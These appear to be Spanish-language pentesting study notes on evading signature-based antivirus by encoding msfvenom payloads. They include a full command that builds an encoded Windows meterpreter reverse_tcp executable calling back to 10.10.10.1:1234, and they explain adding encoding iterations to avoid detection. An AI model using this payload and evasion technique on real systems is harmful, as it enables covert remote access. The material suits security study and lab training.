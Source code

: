 Dado que el vector de ataque del lado del cliente involucra la transferencia y almacenamiento de payloads maliciosos en el sistema objetivo, debemos ser consientes de la detección de anti virus.
La mayoría de las soluciones anti virus realizan la detección de archivos o ejecutables maliciosos basándose en las firmas.
Podemos evadir algunas de estas detecciones codificando nuestros payloads.
Básicamente el encoding es el proceso de modificar el shellcode del payload con el objetivo de modificar la firma del mismo. 

El shellcode es una pieza del código típicamente utilizada como payload para la explotación.
Obtiene su nombre de la terminal de ejecución de comandos.

Msfvenom como dijimos en el capitulo anterior, posee la capacidad de realizar encoding de los payloads.
Podemos ver los encoders disponibles ejecutando el comando:
	msfvenom --list encoders
En la lista podemos encontrar el nombre del Encoder, la descripción y un rango.
![](../../Images/Pasted%20image%2020240206125046.png)

Supongamos que queremos generar un payload de meterpreter para un sistema windows y queremos encodearlo, para ello debemos ejecutar el siguiente comando:
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -e x86/shikata_ga_nai -f exe > /home/mrj/Payloads/Windows/payloadx32encodeado
![](../../Images/Pasted%20image%2020240206130726.png)
Nótese que para realizar el encoding utilizamos la opcion -e
Como se puede observar a la salida de nuestro comando para generar y encodear el payload vemos una pequeña leyenda
![](../../Images/Pasted%20image%2020240206130926.png)
Observamos que dice 1 iteración, esto significa que nuestro encoder se utilizo en este payload una sola vez, podemos codificar nuestra carga útil tantas veces como queramos. 
Entre mas iteraciones tenga nuestro payload mas aumentan sus posibilidades de que no sea reconocido por un anti virus. 
Podemos especificar el numero de iteraciones que queremos en nuestro payload agregando al comando la opcion -i antes del encoder, por ejemplo:
![](../../Images/Pasted%20image%2020240206131440.png)
![](../../Images/Pasted%20image%2020240206131341.png)
![](../../Images/Pasted%20image%2020240206131356.png)
